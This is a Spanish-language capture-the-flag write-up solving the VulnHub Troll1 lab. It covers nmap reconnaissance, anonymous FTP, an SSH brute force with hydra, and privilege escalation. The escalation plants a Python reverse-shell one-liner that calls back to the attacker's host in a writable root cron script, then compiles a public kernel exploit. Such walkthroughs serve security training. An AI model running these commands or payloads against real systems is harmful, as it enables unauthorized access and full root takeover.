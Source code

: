```yaml
---
title: Resolución de TROLL1 CTF
date: 2023-08-02
categories: [Laboratorios, VulnHub]
tags: [pentesting, ctf, privilege-escalation, linux]
---
```


## Reconocimiento inicial

Descubrimos los HOST activos:

```bash
sudo nmap -sn -n 192.168.20.0/24
```

En este caso sabemos que la maquina es la 192.168.20.128 por lo que escaneamos los puertos activos de forma segura para no ser detectados.

```bash
sudo nmap -sS -n -ff --top-ports 5 192.168.20.128
```

De nuevo aquí sabemos que esta máquina únicamente tiene los puertos 21,22 y 80 activos. Ahora vamos a ver que servicios y que versión corren esos puertos:

```bash
sudo nmap -sV -n -p21,22,80 192.168.20.128
```

![Nmap scan](/assets/img/posts/troll1/20241125_224002_6-1.png)

Como vemos que en este caso el puerto 80 está activo significa que está corriendo alguna aplicación web así que vamos al navegador a verificar.

En esta aplicación habrá archivos y contenido dentro de la aplicación web utilizando DIRBUSTER etc.

Sabiendo que servicios corren podemos buscar vulnerabilidades públicas y si tienen PoC.

## Explotación de FTP anónimo

Observamos que tiene un servicio FTP activo en el puerto 21 y que este servicio por defecto implementa un acceso anónimo, por lo que podremos probar.

```bash
ftp 192.168.20.128
```

![FTP anonymous](/assets/img/posts/troll1/20241125_224045_6-2.png)
_Como vemos esta máquina tiene un login anónimo en FTP._

Listamos archivos y vemos un "lol.pcap" así que lo traemos a la máquina principal:

```bash
get lol.pcap
exit
```

Abrimos el archivo con WIRESHARK:

![Wireshark analysis](/assets/img/posts/troll1/20241125_224150_6-3.png)
_Y vemos registros de inicio de sesión mediante FTP_

En este tipo de conexiones es interesante ver que archivos y que transferencias se han realizado:

![FTP data](/assets/img/posts/troll1/20241125_224209_6-4.png)
_En este caso en un FTP-DATA encontramos algo más de información._

Como vemos es alguna guía para este CTF indicando que casi pero no. Podríamos intentar buscar algo sobre esta información en la aplicación web.

## Exploración web y enumeración

En el navegador vamos a buscar el directorio http://192.168.20.128/sup3rs3cr3tdirlol/

Encontramos un archivo y lo descargamos.

Si lo abrimos vemos que es un binario en que solo distinguimos algunas cadenas de texto.

![Binary analysis](/assets/img/posts/troll1/20241125_224347_6-5.png)
_Como vemos hay algún tipo de pista._

A lo mejor se está refiriendo a la aplicación web http://192.168.20.128/0x0856BF/

Vemos dos carpetas en las que hay dos archivos uno con una contraseña y otro con lo que parece una lista de Usuarios:

```text
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

## Fuerza bruta SSH

Ahora bien, si recordamos esta máquina tiene varios servicios, FTP, HTTP y SSH, quizá esto indique algún usuario válido para poder acceder por SSH.

Para ello si tenemos el usuario concreto y su contraseña pues lo hacemos manualmente si no podemos usar algunas herramientas automáticas. Una de las más famosas es HYDRA:

Descargamos los archivos de texto de la máquina a la nuestra con:

```bash
curl http://192.168.20.128/0x0856BF/good_luck/which_one_lol.txt > users.txt
curl http://192.168.20.128/0x0856BF/this_folder_contains_the_password/Pass.txt > pass.txt
```

Modificamos el documento para eliminar esa cadena de texto innecesaria y vamos con hydra:

```bash
hydra -L users.txt -p "Good_job_:)" 192.168.20.128 ssh
```

Pero parece que no es correcto ya que hydra nos devuelve que no ha encontrado coincidencias. Teniendo un poco en cuenta que es un CTF y que la carpeta donde copiamos la posible contraseña se llama "this_folder_contains_the_password", pensando un poco y siendo creativos podemos pensar que es "Pass.txt" así que vamos a probar:

```bash
hydra -L users.txt -p "Pass.txt" 192.168.20.128 ssh
```

![Hydra success](/assets/img/posts/troll1/20241125_224609_6-6.png)
_Como vemos en este caso ha conseguido acceso mediante una coincidencia._

A todo esto hay que tener en cuenta que todo esto será monitoreado por prácticamente cualquier IDS como SNORT si se realiza así sin más o sin protección por lo que es algo a tener en cuenta ya que hydra básicamente hace un ataque de fuerza bruta.

## Post-explotación y escalada de privilegios

En este punto podemos tomar tres caminos:

- Descubrir que proceso nos termina la sesión por timeout
- Descubrir ficheros a los que tengamos acceso desde la máquina
- Buscar vulnerabilidades para la versión del sistema operativo que esté ejecutando la máquina

Vamos a ver si podemos eliminar o configurar el proceso que nos termina la sesión:

```bash
cd /var/log
```

Listamos y vemos un archivo cronlog que si analizamos está ejecutando un archivo llamado cleaner.py

![Cronlog analysis](/assets/img/posts/troll1/20241125_224800_6-7.png)

Buscamos donde se encuentra ese archivo y vemos su contenido:

![Cleaner.py content](/assets/img/posts/troll1/20241125_224814_6-8.png)

Es un script en python que de forma recursiva elimina a todo el contenido de la carpeta tmp pero si vemos quien ejecuta este archivo es el usuario root y tiene un problema de seguridad y es que el archivo se puede modificar por cualquier usuario.

Buscamos un script de python para activar un reverse shell desde el archivo: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.20.129",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

Con un nano vamos a modificar el script de python añadiendo esa línea de ejecución y vamos escuchar por el puerto con netcat:

```bash
nano /lib/log/cleaner.py
netcat -lvp 4242
```

Y cuando el archivo se ejecute veremos como obtenemos una reverse shell de la máquina con privilegios root:

![Reverse shell](/assets/img/posts/troll1/20241125_224925_6-9.png)

De nuevo esto es una máquina preparada por lo que en el mundo real no se encuentran esos script diseñados para poder explotarlos.

## Método alternativo: Kernel Exploit

Pero sí que en un caso real podemos hacer un análisis sobre vulnerabilidades que tenga algún servicio desactualizado que proporcione una brecha de seguridad que podamos explotar.

Por ejemplo hay un exploit del kernel de linux en su versión 3.13.0 en las versiones de Ubuntu 12.04/14.04/14.10/15.04 [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)

Para probarlo podemos copiar el exploit e ir a una dirección donde el usuario de ssh pueda escribir como es TMP:

```bash
pico exploit.c
# Pegamos el exploit
gcc exploit.c -o hacked
./hacked
```

![Privilege escalation](/assets/img/posts/troll1/20241125_225102_6-10.png)
_Y como vemos tenemos escalado de privilegios_
